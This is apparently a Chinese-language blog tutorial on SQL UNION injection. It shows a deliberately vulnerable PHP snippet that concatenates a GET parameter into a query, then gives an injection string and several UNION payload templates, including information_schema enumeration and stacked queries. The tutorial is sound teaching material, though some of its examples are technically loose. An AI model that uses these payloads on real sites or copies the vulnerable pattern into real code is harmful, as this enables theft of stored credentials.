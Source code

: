 # 原创
：  【sql注入-union注入】 union函数 联合注入

# 【sql注入-union注入】 union函数 联合注入

**目录**

[union注入](#extractvalue%28%29%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5)

[一、语法介绍：](#%E4%B8%80%E3%80%81%E8%AF%AD%E6%B3%95%E4%BB%8B%E7%BB%8D%EF%BC%9A)

[二、代码示例](#%E4%BA%8C%E3%80%81%E6%8A%A5%E9%94%99%E5%8E%9F%E5%9B%A0)

[网络安全O](#%E4%B8%89%E3%80%81%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%B0%8F%E5%9C%88%E5%AD%90)

---


## union注入

### 一、语法介绍：

版本：

union函数是SQL语言中的一个操作符，用于将两个或多个查询结果合并成一个结果集。它适用于几乎所有主流的关系型数据库管理系统（RDBMS）

如所有的：MySQL、Oracle、Microsoft SQL Server、PostgreSQL、SQLite等关系型数据库

---


语法：

```
SELECT column1, column2 FROM table1 
UNION 
SELECT column1, column2 FROM table2;
```

使用SELECT语句来查询两个或多个表中的数据。然后，使用UNION关键字将这些查询结果合并在一起

（注：被合并的查询结果具有相同的列数和相似的数据类型。如果查询结果的列数不同或者数据类型不兼容，将会导致错误）

---


 

作用：
1. 合并结果集：当我们需要将多个查询结果合并成一个结果集时，可以使用union函数。这样可以简化查询操作，减少代码的复杂性。1. 去重数据：union函数会自动去重，即将重复的行从结果集中剔除，只返回唯一的行。这在需要对两个或多个表中的数据进行合并，并消除重复数据时非常有用。1. 扩展查询：使用union函数可以将多个查询结果合并在一起，从而扩展查询的范围。我们可以在每个SELECT语句中使用不同的条件和过滤器，从不同的表中获取数据，并将它们合并成一个结果集
---


---


### 二、代码示例

示例：

```
&lt;?php
// 获取用户输入
$id = $_GET['id'];

// 构造SQL查询语句
$sql = "SELECT * FROM users WHERE id = " . $id;

// 执行SQL查询
$result = mysqli_query($conn, $sql);

// 处理查询结果
if ($result) {
    // 输出查询结果
    while ($row = mysqli_fetch_assoc($result)) {
        echo "用户名: " . $row['username'] . "&lt;br&gt;";
        echo "密码: " . $row['password'] . "&lt;br&gt;";
    }
} else {
    // 输出错误信息
    echo "查询失败";
}
?&gt;

```

用户可以通过URL中的`id`参数来指定要查询的用户ID。然而，由于代码中没有对`$id`进行任何过滤或验证，攻击者可以在`id`参数中注入恶意的SQL代码。

可将`id的`参数注入恶意代码，如下

```
1' UNION SELECT username, password FROM users--
```

那么构造的SQL查询语句将变为：

```
SELECT * FROM users WHERE id = 1' UNION SELECT username, password FROM users--'

```

将会返回所有用户的用户名和密码，绕过了原本的查询条件

通过联合注入漏洞获取敏感信息，或者进行其他恶意操作

---


payload：

1、基于联合查询的union注入：

```
' UNION SELECT column1, column2, column3 FROM table_name--
```

2、基于错误的union注入：

```
' UNION ALL SELECT NULL, NULL, NULL, table_name FROM information_schema.tables--
```

3、基于盲注的union注入：

```
' UNION ALL SELECT NULL, (SELECT concat(table_name,0x0a,column_name) FROM information_schema.columns WHERE table_name='表名' LIMIT 1 OFFSET 0)#
```

4、基于堆叠查询的union注入：

```
'; SELECT 1,2,3 UNION ALL SELECT column1, column2, column3 FROM table_name--
```

…………

每一种sql注入的方法都可以尝试与union进行结合

---


---


## 网络安全O

[README.md · 书半生/网络安全知识体系-实战中心 - 码云 - 开源中国 (gitee.com)正在上传…重新上传取消https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md<img alt="icon-default.png?t=N658" src="https://csdnimg.cn/release/blog_editor_html/release2.3.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N658"/>https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md](https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md)

[GitHub - BLACKxZONE/Treasure_knowledge<img alt="icon-default.png?t=N658" src="https://csdnimg.cn/release/blog_editor_html/release2.3.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N658"/>https://github.com/BLACKxZONE/Treasure_knowledge](https://github.com/BLACKxZONE/Treasure_knowledge)
